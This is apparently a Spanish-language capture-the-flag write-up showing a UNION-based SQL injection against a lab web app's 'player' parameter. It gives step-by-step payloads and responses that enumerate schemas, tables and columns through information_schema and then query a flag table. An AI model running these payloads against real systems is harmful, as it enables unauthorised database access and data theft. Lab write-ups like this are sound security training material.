 ```bash
Referer: http://10.10.11.128/index.php
Cookie: PHPSESSID=g9cr58rofn03mlbo8ouiml4c07

player=admin' union select 1-- -    
```
Respuesta de la Injeccion SQL, en la que vemos que tenemos un solo campo.

```bash
Sorry, "1" you are not eligible due to already qualifying.
```
Procedemos a intentar meterle un segundo payload para enumerar la Base de Datos en la que estamos
```bash
player=admin' union select database()-- -
```

Respuesta
```bash
Sorry, "November" you are not eligible due to already qualifying.
``` 

Como solo tenemos un campo para listar contenido, procedemos a usar la expresion group-concat() 
```bash
player=admin' union select group_concat(schema_name,':') from information_schema.schemata-- -
```
Resppuesta para la enumeracion de Bases de Datos

```bash
Sorry, "mysql:, information_schema:, performance_schema:, sys:, november:" you are not eligible due to already qualifying.
```
Enumeracion de Tablas para la base de datos `November`

```bash
player=admin' union select group_concat(table_name,':') from information_schema.tables where table_schema="November"-- -
```
Resppuesta para la enumeracion de Tablas para la Base de Datos `Ǹovember`

```bash
Sorry, "flag:,players:" you are not eligible due to already qualifying.
```

Enumeracion de Columnas para la Base de Datos `November`
```bash
player=admin' union select group_concat(column_name,':') from information_schema.columns where table_schema="November" and table_name="flag"-- -
```
Respuesta para las Columnas para la Base de Datos `November`

```bash
Sorry, "one:" you are not eligible due to already qualifying.
```
Vemos que solo tenemos una Columna en la Tabla Name `flag` y Base de Datos `November`
Procedemos a listar la data para la columna enumerada `one`

```bash
player=admin' union select one from November.flag-- -
```

